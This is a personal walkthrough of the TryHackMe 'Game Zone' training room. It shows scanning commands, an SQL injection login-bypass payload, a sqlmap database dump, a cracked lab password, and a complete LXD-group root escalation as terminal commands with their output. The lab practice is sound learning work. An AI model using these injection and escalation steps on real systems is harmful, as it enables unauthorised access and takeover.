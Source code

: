 #+TITLE: THM: Game Zone
#+DATE: <2023-12-27 08:11>
#+DESCRIPTION: Writeup for the GameZone ctf/walkthrough room in TryHackme.
#+FILETAGS:  tryhackme

* Introduction
Take me to the +danger+ game zone. Merry Christmas everyone, today is
yet another full day and I'll be trying to take the most out of it. 

Once again, I've modified ~/etc/hosts~ and my local ~bashrc~ so that both
~gamezone.thm~ and ~$IP~ point to the target machine

* Reconnaissance
Starting with my go-to snippet for CTFs:
#+NAME: Initial nmap scan
#+begin_src bash
nmap -sV -sC -oG nmap.initial $IP
#+end_src

It shows 2 open ports:
- [ ] 22/ssh
- [ ] 80/http

Since we have no credentials checking the ssh server out is not so
promising, and due to that, I proceed to web enumeration, right after
starting the full scan (hoping it may give us something extra).

#+NAME: Nmap Full Port Scan
#+begin_src bash
nmap -p- -oG nmap.full -T4 $IP
#+end_src

** Web Enumeration
Visiting the website (having already started Burp Proxy at the
background, to record everything and limited the scope appropriately),
we get a home page pointing to the Hitman games.

#+caption: Hitman entry page
[[file:images/Reconnaissance/20231227_084910_screenshot.png]]

Like always, more information (supposing it does not exceed a certain
limit where it becomes overwhelming), can't do any harm, so, I made
sure to run ~gobuster~ as well:

#+NAME: Gobuster with IP and default path
#+begin_src bash
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -u http://$IP -o gobuster.big
#+end_src

It did not reveal much, and ~robots.txt~ did not exist on the server, so
there was not a lot to check. Taken straight from our output:
- [ ] /.htpasswd (Status: 403)
- [ ] /.htaccess (Status: 403)
- [ ] /images (Status: 301)
- [ ] /server-status (Status: 403)

Since the room *points* to SQLi, this is our next step.

* SQLi
Now, we see that in each request there is a line in the following
form:
#+begin_example
username=reqwer&password=qwerqwer&x=18&y=7
#+end_example

Sending that to intruder to test our payloads hassle free. +Sadly, which I also realized when I manually tested this random combination you can see above, no error message is vis+

#+caption: Subtle Error
[[file:images/SQLi/20231227_090646_screenshot.png]]

No error is visibly caused by my sample injection payloads (just
testing the usual as found in [[https://swisskyrepo.github.io/PayloadsAllTheThings/SQL%20Injection/#summary][PayloadsAllTheThings]]), when testing the
username field, so moving on to password. Same behavior there, so it
is possible that the selected payloads are just not good enough (?).

Heading back to the room's page, however, it suggested that we leave
the second field blank (should have thought of that by myself).

Tinkering just a little bit there I got this that worked:
#+begin_example
username=' or 1=1; ---&password=&x=0&y=
#+end_example

Using that in our browser we get access to /Game Zone Portal/

** Game Zone Portal
Still taking advantage of Burp Suite Proxy, I'm trying different
payloads on the Portal's input field, to see what I can get:
- An error shows that the backend is MySQL, which I plan to take
  advantage of.
- After just a little manual enumeration, I decided to follow the
  room's advice[fn:1]and move on with sqlmap. 

** SQLmap
It worked smoothly, giving us both the posts that I had already found
*and* a hash:username combination.

#+NAME: Using existing request
#+begin_src bash
sqlmap -r request.txt --dbms mysql --dump
#+end_src

* Password Cracking
Going to my john notes and just running john against gave me the
password, I suspect just using the suggested command would be fine as well.

#+begin_comment
videogamer124
#+end_comment

* Initial Foothold
Knowing the user:password combination we can safely login as ~agent47~:
#+NAME: Log In
#+begin_src bash
ssh agent47@gamezone.thm
#+end_src

After logging in I thought it might be beneficial to try my techniques
for privilege escalation, however the basics turned out to be properly
configured so no low-hanging fruit for me there.

In any case, I wanted to avoid using ~metasploit~ and the suggested
technique before attempting to do it myself, so I ran ~linpeas~ and
while checking the output out, I noticed something I had seen in a CTF
a long time ago, when I could not understand it so well: ~(lxd)~ group
membership can usually be translated into root privileges.

Heading to [[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation][HackTricks]], I carefully went for ~method 2~, and babbity
bibbity boop, I became root :P!

Some snippets that I used can be found below, missing the parts where
I used scp to copy the tar.gz files to the target machine, and the
initialization that took place in my local machine. I did not deviate
(at all) from the playbook's commands so it is easy for anyone to just
follow the link and perform the same privesc.
#+begin_example
agent47@gamezone:~$ lxc image import ./alpine*.tar.gz --alias myimage # It's important doing this from YOUR HOME directory on the victim machine, or it might fail.
Image imported with fingerprint: 78495f763d90135702f6430685b5cc0f14255034c8fccda355791263fdf49354
agent47@gamezone:~$ lxd init
error: You have existing containers or images. lxd init requires an empty LXD.
agent47@gamezone:~$ lxc init myimage mycontainer -c security.privileged=true
Creating mycontainer
agent47@gamezone:~$ lxc init myimage mycontainer -c security.privileged=true
Creating mycontainer
error: Container 'mycontainer' already exists
agent47@gamezone:~$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to mycontainer
agent47@gamezone:~$ lxc start mycontainer
agent47@gamezone:~$ lxc exec mycontainer /bin/sh
#+end_example

* Thoughts
This was the first time I performed port forwarding with ssh (even
though it did not help me at all. I just did it to get the cms flags -
searching the CMS's configuration files locally for some reason gave
me a totally different version than the one online.), *BUT* I really
liked playing around with it and enjoyed it.

Now as far as the room is concerned, it had the perfect balance for
me, not too difficult and with quite some stuff worth checking out. It
has a /walkthrough/ type of character, however, which I have come to
dislike, and that is the main reason why I tried my best not to look
at it, before getting something that /could/ be a flag.

Highly recommended!

* Footnotes

[fn:1] Having used sqlmap a couple times before I was *amazed* to see
the ~-r~ option. Well played on that one, definitely planning on reusing
it later on.
